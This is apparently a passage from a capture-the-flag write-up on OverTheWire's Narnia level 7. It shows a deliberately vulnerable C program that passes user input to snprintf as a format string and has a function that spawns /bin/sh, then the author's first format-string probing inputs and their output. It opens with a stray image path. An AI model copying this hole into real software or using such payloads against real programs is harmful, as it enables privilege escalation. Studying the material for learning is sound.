         printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);
>
        printf("I guess you want to come to the hackedfunction...\n");
        sleep(2);
        ptrf = goodfunction;
>  
        snprintf(buffer, sizeof buffer, format);
>
        return ptrf();
}
>
int main(int argc, char **argv){
        if (argc <= 1){
                fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                exit(-1);
        }
        exit(vuln(argv[1]));
}
>
int goodfunction(){
        printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
        fflush(stdout);
>        
        return 0;
}
>
int hackedfunction(){
        printf("Way to go!!!!");
	fflush(stdout);
        system("/bin/sh");
>
        return 0;
}
>```
>
> Ok, it seems pretty obvious looking at this code that we need to change ```ptrf``` from pointing to ```goodfunction``` to ```hackedfunction```.  Our input appears to be passed in directly to the ```snprintf``` function and is being used as the format value.  Sounds like we will be working on another string format issue.  Let's poke around at that first.
>
>```
# ./narnia7 $(python -c 'print "AAAA"+"%x"*10')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xffa2277c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
# ./narnia7 $(python -c 'print "AAAA"+"%x"*100')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>
before : ptrf() = 0x80486e0 (0xfffc721c)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
# ./narnia7 $(python -c 'print "AAAA"*1000')
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706
>